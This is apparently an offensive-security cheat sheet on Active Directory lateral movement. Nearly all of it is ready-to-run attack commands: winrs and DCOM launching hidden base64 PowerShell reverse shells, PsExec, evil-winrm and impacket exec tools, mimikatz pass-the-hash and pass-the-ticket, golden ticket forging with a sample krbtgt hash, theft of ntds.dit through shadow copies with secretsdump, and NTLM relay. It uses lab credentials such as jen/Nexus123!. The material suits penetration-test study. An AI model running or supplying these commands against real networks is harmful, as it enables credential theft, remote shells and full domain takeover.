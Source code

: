 # 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded PowerShell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <encoded_rs>"
```

## PsExec.exe

**Requirements**:

- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available (enabled by default).
- File and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- An SMB connection through the firewall (commonly port 445).
- The Windows File and Printer Sharing feature must be enabled.
- The admin share called **ADMIN$** must be available.

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate Kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\C$
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it as the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant KDC as KDC
    participant S as Service

    Note over A: Attacker obtains KRBTGT key (offline)
    A->>A: Forge Golden Ticket (TGT) with custom claims
    A->>KDC: TGS-REQ (with forged TGT)
    KDC-->>A: TGS-REP (service ticket)
    A->>S: AP-REQ (with forged service ticket and authenticator)
    S-->>A: AP-REP (access granted)
```

```shell
# Windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch psexec.exe
PsExec.exe \\dc1 cmd.exe

# Linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed), use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First, set up a **shadowcopy.txt** instructions file in which you create a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/):

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```

